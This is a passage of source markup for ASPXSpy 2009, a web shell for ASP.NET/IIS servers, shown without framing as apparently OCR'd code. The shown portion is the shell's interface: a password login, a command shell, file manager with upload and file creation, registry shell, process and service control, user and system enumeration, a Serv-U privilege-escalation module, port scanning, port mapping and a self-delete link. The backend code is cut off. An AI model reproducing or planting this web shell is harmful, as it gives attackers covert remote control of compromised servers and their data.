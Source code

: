 <body style="margin:0;table-layout:fixed;">
<form id="ASPXSpy" runat="server">
<div id="ljtzC" runat="server" style=" margin:15px" enableviewstate="false" visible="false" >
<span style="font:11px Verdana;">Password:</span>
<asp:TextBox ID="HRJ" runat="server" Columns="20" CssClass="Bin_Style_Login" ></asp:TextBox>
<asp:Button ID="ZSnXu" runat="server" Text="Login" CssClass="Bin_Style_Login" OnClick="xVm"/><p/>
Copyright &copy; 2009 Bin -- <a href="http://www.rootkit.net.cn" target="_blank">www.rootkit.net.cn</a>
</div>
<div id="ZVS" runat="server">
<div id="Zzj" runat="server">
<table width="100%" border="0" cellpadding="0" cellspacing="0">
<tr class="head">
<td ><span style="float:right;"><a href="http://www.rootkit.net.cn" target="_blank">ASPXSpy Ver: 2009</a></span><span id="Bin_Span_Sname" runat="server" enableviewstate="true"></span></td>
</tr>
<tr class="alt1">
<td><span style="float:right;" id="Bin_Span_FrameVersion" runat="server"></span>
<asp:LinkButton ID="UtkN" runat="server" OnClick="YKpI" Text="Logout" ></asp:LinkButton> | <asp:LinkButton ID="RsqhW" runat="server" Text="File Manager" OnClick="Ybg"></asp:LinkButton> | <asp:LinkButton ID="xxzE" runat="server" Text="CmdShell" OnClick="VOxn"></asp:LinkButton> | <asp:LinkButton ID="nuc" runat="server" Text="IIS Spy" OnClick="KjPi"></asp:LinkButton> | <asp:LinkButton ID="OREpx" runat="server" Text="Process" OnClick="Grxk"></asp:LinkButton> | <asp:LinkButton ID="jHN" runat="server" Text="Services" OnClick="ilC"></asp:LinkButton> | <asp:LinkButton ID="PHq" runat="server" Text="UserInfo" OnClick="Olm"></asp:LinkButton> | <asp:LinkButton ID="wmgnK" runat="server" Text="SysInfo" OnClick="HtB"></asp:LinkButton> | <asp:LinkButton ID="FeV" runat="server" Text="FileSearch" OnClick="PPtK"></asp:LinkButton> | <asp:LinkButton ID="PVQ" runat="server" Text="SU Exp" OnClick="jXhS"></asp:LinkButton> | <asp:LinkButton ID="jNDb" runat="server" Text="RegShell" OnClick="xSy"></asp:LinkButton> | <asp:LinkButton ID="HDQ" runat="server" Text="PortScan" OnClick="cptS" ></asp:LinkButton> | <asp:LinkButton ID="AoI" runat="server" Text="DataBase" OnClick="dMx"></asp:LinkButton> | <asp:LinkButton ID="KHbEd" runat="server" Text="PortMap" OnClick="fDO"></asp:LinkButton>
</td>
</tr>
</table>
</div>
<table width="100%" border="0" cellpadding="15" cellspacing="0"><tr><td>
<div id="jDKt" style="background:#f1f1f1;border:1px solid #ddd;padding:15px;font:14px;text-align:center;font-weight:bold;" runat="server" visible="false" enableviewstate="false"></div>
<h2 id="Bin_H2_Title" runat="server"></h2>
<%--FileList--%>
<div id="CzfO" runat="server">
<table width="100%" border="0" cellpadding="0" cellspacing="0" style="margin:10px 0;">
 <tr>
<td style=" white-space:nowrap">Current Directory : </td>
<td style=" width:100%"><input class="input" id="AXSbb" type="text" style="width:97%;margin:0 8px;" runat="server"/>
</td>
<td style="white-space:nowrap" ><asp:Button ID="xaGwl" runat="server" Text="Go" CssClass="bt" OnClick="EXV"/></td>
 </tr>
</table>
<table width="100%" border="0" cellpadding="4" cellspacing="0">
<tr class="alt1"><td colspan="7" style="padding:5px;">
<div style="float:right;"><input id="Fhq" class="input" runat="server" type="file" style=" height:22px"/>
<asp:Button ID="RvPp" CssClass="bt" runat="server" Text="Upload" OnClick="lbjLD"/></div><asp:LinkButton ID="OLJFp" runat="server" Text="WebRoot" OnClick="mcCY"></asp:LinkButton> | <a href="#" id="Bin_Button_CreateDir" runat="server">Create Directory</a> | <a href="#" id="Bin_Button_CreateFile" runat="server">Create File</a>
 | <span id="Bin_Span_Drv" runat="server"></span><a href="#" id="Bin_Button_KillMe" runat="server" style="color:Red">Kill Me</a>
</td></tr>
<asp:Table ID="UGzP" runat="server" Width="100%" CellSpacing="0" >